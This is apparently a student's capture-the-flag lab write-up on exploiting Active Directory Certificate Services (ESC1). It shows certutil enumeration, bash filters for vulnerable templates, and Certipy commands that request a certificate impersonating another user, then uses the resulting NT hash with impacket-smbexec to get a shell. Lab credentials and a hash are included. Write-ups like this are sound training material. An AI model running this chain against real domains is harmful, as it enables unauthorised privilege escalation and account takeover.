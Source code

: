 ![](images/banner2.png)

https://tryhackme.com/r/room/adcertificatetemplates

I don't wanna just copy and paste commands. Let's finish this THM lab first. Then we go back to authority. It might teach us how to solve the challenge.


```sh
evil-winrm \
	-i lunar.eruca.com \
	-u thm \
	-p 'Password1@'
```

```sh
xfreerdp \
	/u:thm \
	/p:'Password1@' \
	/v:lunar.eruca.com \
	/dynamic-resolution \
	+clipboard
```

ADCS  is  Microsoft's PKI implementation.  It provides a centralized CA that
can sign certificates that meet several  purposes across a organization. 

They can be exploited for horizontal movement, vertical movement and persistence. 


We can use certutil.exe top enumerate all templates that exist for an org. 

```
certutil.exe /template /v > templates.txt 
```

![](images/templates.png)

A certificate must meet the fallowing requirements to be exploitable. 

![](images/requirements.png)

- Do we have permissions to request the certificate ? **Allow Enroll** or **Allow Full Control **  
- Can we use it for authentication ? 
- Can we alter the Subject Alternative Name  (SAN) ? 

![](images/interesting.png)

First, we create a subset with all certificate templates we're allowed to request.

Then, we must create smaller subset with certificates that we can request  and that the EKU is equal Client Authentication.

![](images/eku.png)

Can we specify the SAN? 

	This is the juiciest of all conditions!

It works pretty much like a golden ticket, if we can  modify the SAN, then we can request a certificate for any user and use it for persistence and privilege escalation!

![](images/san.png)

Now time to work

- I generated and downloaded templates.txt
```
certutil.exe /template /v > templates.txt 
```


```sh
grep -E '(Allow Enroll\s+LUNAR\\Domain Users|Allow Full Control\s+LUNAR\\Domain Users)' templates.txt
```

![](images/enroll.png)


Nice, now we have the ID and template name for each "requestable" template.


```sh
grep -n -B80 -E '(Allow Enroll\s+LUNAR\\Domain Users|Allow Full Control\s+LUNAR\\Domain Users)' templates.txt \
	| grep -E '(Template\[([0-9]+)\]|TemplatePropCommonName)'
```

![](images/nice.png)

Okay, now we should create a subset of templates that we can request and that's  used for authentication.

```sh
tps=($(grep  -B80 -E '(Allow Enroll\s+LUNAR\\Domain Users)' templates.txt | \
	grep -E '(TemplatePropCommonName)' | \
	awk '{print $3}' ))

for tp in ${tps[@]}; do
	echo "Template: ${tp}"
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep -A3 'TemplatePropEKUs'
	echo
done
```

![](images/smaller.png)

A few lines of shell and we're good

```sh
tps=("ClientAuth" "UserRequest" "UserSignature")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```

Perfect! UserRequest is vulnerable

![](images/vulnerable.png)

Here's the part I don't really like.  I prefer using the command line for everything. Cus the GUI is harder to memorize. So I'll be skiping the steps they showing in the lab and we'll search how to do it from the terminal.


https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation


![](images/ca.png)


Alright, as we know we can impersonate any user ( we control SAN). We can just request a new  certificate for the administrator or in this lab for svc.gitlab@lunar.eruca.com using certipy from our kali. 

```sh
certipy-ad req \
	-username thm@lunar.eruca.com \
	-password 'Password1@' \
	-target-ip 10.10.3.67 \
	-ca 'lunar-LUNDC-CA' \
	-template 'UserRequest' \
	-upn 'svc.gitlab@lunar.eruca.com' \
	-debug
```

Awesome, we got a certificate for svc.gitlab
![](images/gotcert.png)

Now, we can use the certificate to authenticate with the domain as the svc.gitlab

```sh
certipy-ad auth \
	-pfx 'svc.gitlab.pfx' \
	-username 'svc.gitlab' \
	-domain 'lunar.eruca.com' \
	-dc-ip 10.10.3.67 \
	-debug
```

![](images/clockskew.png)

Okay,  it didn't work cus our clocked is not in sync not a big deal .

![](images/perfection.png)

hehe now we got it!

```sh
impacket-smbexec 'lunar.eruca.com/svc.gitlab@10.10.3.67' \
	-hashes 'aad3b435b51404eeaad3b435b51404ee:659dd0200e40d358c29e7cd5acd7f3ca'
```

![](images/noice.png)


Now, let's go back to HTB's authority and try harder.

Question... that LDAPs.pfx could we just use that ?  could we  just use that to impersonate the administrator and skip a few steps ? 


